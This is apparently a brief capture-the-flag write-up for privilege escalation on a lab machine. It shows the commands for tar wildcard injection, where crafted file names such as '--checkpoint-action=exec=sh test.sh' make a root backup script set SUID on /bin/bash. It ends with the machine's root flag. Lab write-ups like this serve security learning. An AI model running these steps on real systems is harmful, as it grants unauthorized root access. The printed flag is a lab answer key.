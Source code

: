 there is a backup script which we can exploit (same as VulnNet root)
![[Pasted image 20210528162425.png]]

here we can exploit the wildcard using the 3rd method(Tar Wildcard Injection) from
: https://www.hackingarticles.in/exploiting-wildcard-for-privilege-escalation/


go to `/var/www/html`

```
echo "chmod u+s /bin/bash" > test.sh 
echo "" > "--checkpoint-action=exec=sh test.sh"
echo "" > --checkpoint=1
```

now back to `/home/milesdyson/backups/`

and run the script using `bash backupsrv.sh`

and `/bin/bash -p`  and we got root

![[Pasted image 20210528162942.png]]

root == 3f0372db24753accc7179a282cd6a949